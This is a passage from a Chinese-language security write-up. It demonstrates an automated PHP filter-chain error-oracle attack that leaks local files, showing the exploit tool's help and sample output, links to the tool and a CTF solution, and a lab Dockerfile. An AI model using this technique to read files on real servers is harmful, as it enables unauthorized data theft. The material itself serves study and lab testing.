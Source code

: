## 九、自动化攻击过程演示

基于@hash\_kitten 的文章开发了一个工具，并在这篇文章中提到了更多的技巧和优化方法。它可以在 GitHub 存储库中找到。  
[https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit)  
[https://github.com/DownUnderCTF/Challenges\_2022\_Public/blob/main/web/minimal-php/solve/solution.py](https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py)

工具目前允许选择一个目标，用于注入的 POST 参数和一个代理（如果需要查看请求的话就可以使用代理）：

```bash
$ python3 filters_chain_oracle_exploit.py --help
usage: filters_chain_oracle_exploit.py [-h] --target TARGET --file FILE --parameter PARAMETER [--data DATA] [--headers HEADERS] [--verb VERB] [--proxy PROXY]
                                       [--time_based_attack TIME_BASED_ATTACK] [--delay DELAY]

        Oracle error based file leaker based on PHP filters.
        Author of the tool : @_remsio_
        Trick firstly discovered by : @hash_kitten
        ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        $ python3 filters_chain_oracle_exploit.py --target http://127.0.0.1 --file '/test' --parameter 0   
        [*] The following URL is targeted : http://127.0.0.1
        [*] The following local file is leaked : /test
        [*] Running POST requests
        [+] File /test leak is finished!
        b'SGVsbG8gZnJvbSBTeW5hY2t0aXYncyBibG9ncG9zdCEK'
        b"Hello from Synacktiv's blogpost!\n"


optional arguments:
  -h, --help            show this help message and exit
  --target TARGET       URL on which you want to run the exploit.
  --file FILE           Path to the file you want to leak.
  --parameter PARAMETER
                        Parameter to exploit.
  --data DATA           Additionnal data that might be required. (ex : {"string":"value"})
  --headers HEADERS     Headers used by the request. (ex : {"Authorization":"Bearer [TOKEN]"})
  --verb VERB           HTTP verb to use POST(default),GET(~ 135 chars by default),PUT,DELETE
  --proxy PROXY         Proxy you would like to use to run the exploit. (ex : http://127.0.0.1:8080)
  --time_based_attack TIME_BASED_ATTACK
                        Exploits the oracle as a time base attack, can be improved. (ex : True)
  --delay DELAY         Set the delay in second between each request. (ex : 1, 0.1)
```

下面是环境搭建的`Dockerfile`文件 and `index.php`文件。

```bash
FROM php:8.1-apache

RUN mv "$PHP_INI_DIR/php.ini-production" "$PHP_INI_DIR/php.ini"

COPY index.php /var/www/html/index.php
COPY test /test
```
